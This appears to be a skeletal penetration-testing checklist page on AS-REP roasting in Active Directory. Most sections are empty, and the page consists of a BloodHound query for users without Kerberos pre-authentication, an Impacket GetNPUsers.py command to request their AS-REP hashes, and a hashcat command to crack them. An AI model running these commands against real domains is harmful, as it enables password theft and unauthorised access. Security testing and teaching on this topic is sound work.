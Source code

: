 ## Background

## How to test for


```
MATCH (u:User {dontreqpreauth: true}) RETURN u
```

```
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

## How to exploit

```
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>
```


## Recommendation

## Reference


